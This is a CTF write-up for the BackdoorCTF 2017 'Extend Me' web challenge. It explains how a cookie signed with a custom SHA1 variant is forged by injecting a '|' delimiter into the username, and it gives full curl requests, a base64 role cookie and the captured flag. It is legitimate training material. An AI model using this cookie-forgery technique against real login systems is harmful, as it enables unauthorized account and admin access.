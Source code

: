 ```yaml
---
layout: post
title:  "BackdoorCTF 2017 - Extend Me - 250"
date:   2017-09-24 22:00
categories: CTF
tags: [BackdoorCTF2017]
categories: [web]
author: jbz
---
```


The challenge was about gaining access to a web server protected by a login.

The server source code is available [here](https://github.com/jbzteam/CTF/blob/master/BackdoorCTF2017/server.py).

The server was using SLHA1 (a custom version of SHA1 with initial status and round constant slightly changed) to hash the `data` cookie in the following format:
`key|username|user`


`key` is a Secret constant.  
`username` is the user-provided username.  
`user` is the user's role (`user` or `admin`).  
`|` is the `|` character. *This will be useful later.*

The `user` cookie contains the user's role base64-encoded. The server check the role in the following way:
```python
if 'admin' in user: # too lazy to check properly :p
    return "Here you go : CTF{XXXXXXXXXXXXXXXXXXXXXXXXX}"
```

This approach has lots of unintended problem.

First of all, this is the *if* that checks if the data cookie is valid (and the user is authenticated). 
```python
if data != SLHA1(temp).digest():
    temp = SLHA1(temp).digest().encode('base64').strip().replace('\n','')
    # [...]
    resp.set_cookie('data',temp)
```

If the cookie isn't valid the server will take the current user information and make a new hash, making it valid for the next request. (***WAT?***)

Returning to our writeup.  
Another problem that I've immediately noticed was that the server didn't check if `username` contains the `|` character.

So I've made a first request with username `nick|admin`, the server will concatenate `key`, `nick|admin` and `user` (server's defualt role) and the cookie will be `SLHA1("key|nick|admin|user")`  

```
curl --cookie-jar - 'https://extend-me-please.herokuapp.com/login' -H 'Referer: https://extend-me-please.herokuapp.com/login' -H 'Origin: https://extend-me-please.herokuapp.com' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.78 Safari/537.36' -H 'Content-Type: application/x-www-form-urlencoded' --data 'username=nick|admin' --compressed
```

Then I've base64encoded the `admin|user` string.

```python
print("admin|user".encode('base64'))
# YWRtaW58dXNlcg==
```

Finally, a request with username set as `nick` and the user cookie set to `base64(admin|user)`.

The server will concatenate `key`, `nick` and `admin|user` and the SLHA1 hash will correspond.

```
curl --cookie-jar - 'https://extend-me-please.herokuapp.com/login' -H 'Referer: https://extend-me-please.herokuapp.com/login' -H 'Origin: https://extend-me-please.herokuapp.com' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.78 Safari/537.36' -H 'Content-Type: application/x-www-form-urlencoded' --data 'username=nick' --compressed --cookie 'user="YWRtaW58dXNlcg==";data="dwqBEszNafW8LI15fObzONQwD50zbr/Y"'
```


`Here you go : CTF{4lw4y3_u53_hm4c_f0r_4u7h}`

***Clearly***, by looking at the challange name and also at the flag, the intended solution was hash lenght extension. `¯\_(ツ)_/¯`